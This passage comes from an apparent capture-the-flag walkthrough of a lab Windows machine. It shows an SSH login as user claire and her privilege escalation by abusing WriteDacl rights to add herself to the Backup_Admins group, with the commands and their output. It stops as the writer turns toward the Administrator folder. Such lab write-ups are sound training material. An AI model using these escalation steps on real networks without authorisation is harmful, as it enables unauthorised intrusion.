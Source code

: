 

Now I can use that password to ssh in as claire:



    root@kali# ssh claire@10.10.10.77
    claire@10.10.10.77's password:
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    claire@REEL C:\Users\claire>



## Privesc: claire -\> Backup_Admins

From the analysis before, I know that claire has WriteDacl rights on the
Backup_Admins group. I can use that to add her to the group. First, see
that the only member of the group is ranj:



    claire@REEL C:\Users\claire>net group backup_admins
    Group name     Backup_Admins
    Comment

    Members

    -------------------------------------------------------------------------------
    ranj
    The command completed successfully.



Now add claire:



    claire@REEL C:\Users\claire>net group backup_admins claire /add
    The command completed successfully.

    claire@REEL C:\Users\Administrator>net group backup_admins
    Group name     Backup_Admins
    Comment

    Members

    -------------------------------------------------------------------------------
    claire                   ranj
    The command completed successfully.



Despite the fact that it shows claire now in the group, I had to log out
and back in to get it to take effect.

## Privesc: Backup_Admins -\> Administrator

Back in as claire and in Backup_Admins, I can check the permissions on
the Administrator folder:
